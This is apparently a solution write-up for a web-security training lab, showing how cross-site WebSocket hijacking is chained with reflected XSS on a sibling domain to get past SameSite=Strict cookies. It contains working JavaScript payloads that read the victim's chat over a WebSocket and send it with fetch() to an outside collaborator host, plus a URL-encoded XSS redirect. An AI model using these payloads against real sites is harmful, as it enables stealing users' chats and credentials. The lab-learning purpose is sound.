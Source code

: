 # SameSite Strict bypass via sibling domain
# Objective
This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.\
To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server.\
The chat history contains the login credentials in plain text. 

# Solution
## Analysis
On the website there is a live chat feature implemented using WebSockets.\
There is no CSRF protection in websocket handshake request.\
Every time user establishes websocket connection data from all previous interaction with chat is sent over websocket.\
In one of the responses there is `Access-Control-Allow-Origin` pointing to sibling domain.

|![](Images/image-37.png)|
|:--:| 
| *WebSocket handshake* |
|![](Images/image-39.png)|
| *Cookie configuration - Samesite is set to Strict* |
|![](Images/image-38.png)|
| *Sibling domain* |


## Exploitation
### CSWSH Exploit
Attacker can steal data send via websocket by using configuration below - user opens website, websocket connection is established automattically (no CSRF protections), every websocket responnse from server is sent to attacker domain.

Session cookies were not sent with request due to `SameSite=Strict` attribute - sensitive data can not be stolen.

```html
<!DOCTYPE html>
<html>
  <head>
    <title>WS</title>
  </head>
  <body>
    <script>
      var ws = new WebSocket('wss://<id>.web-security-academy.net/chat');
      ws.onopen = function() {
        ws.send("READY");
      };
      ws.onmessage = function(event) {
        fetch('https://<id>.oastify.com', {
          method: 'POST',
          mode: 'no-cors',
          body: event.data
        });
      };
    </script>
  </body>
</html>
```

## XSS Exploit
Sibling domain login page is vulnerable to reflected XSS - username field is not sanitized.\
It allows both GET and POST requests.

|![](Images/image-40.png)|
|:--:| 
| *Standard request* |
|![](Images/image-41.png)|
| *POST request with XSS payload* |
|![](Images/image-42.png)|
| *GET request with XSS payload* |

## SameSite Strict bypass via sibling domain - CSWSH via XSS
Exploitation steps:
1. Victim opens attacker website with exploit
2. Victim is redirected to sibling domain with XSS
3. XSS is trigerred, which performs CSWSH
- Victim's browser sends cookies (sibling domain and main domain is `SameSite`) to `/chat` to establish websocket connection
- Chat data is exfiltrated to attacker domain

CSWSH payload:
```
<script>
var ws = new WebSocket('wss://<id>.web-security-academy.net/chat');
ws.onopen = function() {
ws.send("READY");
};
ws.onmessage = function(event) {
fetch('https://<id>.oastify.com', {
method: 'POST',
mode: 'no-cors',
body: event.data
});
};
</script>
```

Exploit server configuration - CSWSH payload from above was URL-encoded and inserted as XSS payload below:
```html
<script>
document.location = "https://cms-0a590046033ef966800103b400030044.web-security-academy.net/login?username=%3Cscript%3E%0Avar%20ws%20=%20new%20WebSocket('wss://0a590046033ef966800103b400030044.web-security-academy.net/chat');%0Aws.onopen%20=%20function()%20%7B%0Aws.send(%22READY%22);%0A%7D;%0Aws.onmessage%20=%20function(event)%20%7B%0Afetch('https://vxweuvjoayn75g6e0uoi8itzsqyhm7aw.oastify.com',%20%7B%0Amethod:%20'POST',%0Amode:%20'no-cors',%0Abody:%20event.data%0A%7D);%0A%7D;%0A%3C/script%3E&password=test"
</script>
```

|![](Images/image-44.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-43.png)|
| *Cross-site webSocket hijacking via XSS from sibling domain* |
